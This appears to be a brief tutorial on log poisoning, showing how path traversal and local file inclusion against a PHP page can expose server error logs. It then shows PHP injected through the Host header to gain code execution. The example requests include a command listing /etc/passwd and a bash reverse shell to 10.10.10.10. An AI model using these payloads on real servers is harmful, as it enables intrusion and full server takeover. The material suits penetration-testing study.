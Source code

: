 Log poisoning is a vulnerability that is caused by local file inclusion where an attacker is able to view the contents of the log file and modify the value of HTTP headers, such as `Host`, `User-Agent`, or `Cookie` to write arbitrary code and achieve remote code execution on the server.

For example, imagine an application that returns a `.php` page by reading the `page` parameter
```http
GET /blog.php?page=hello-world.php
Host: target-website.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```
We can exploit this by chaining path traversal and local file inclusion to view the log file:
```http
GET /blog.php?page=../../../../var/log/apache2/error.log
Host: target-website.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```
Notice that in the log file, the `Host` HTTP header is displayed. Therefore, we will attempt remote code execution to view the contents of a sensitive file or upload a shell to gain full control of the server.
```http
GET /blog.php?page=../../../../var/log/apache2/error.log
Host: <?php system('ls /etc/passwd') ?>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```
```http
GET /blog.php?page=../../../../var/log/nginx/error.log
Host: <?php system('/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1') ?>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
```
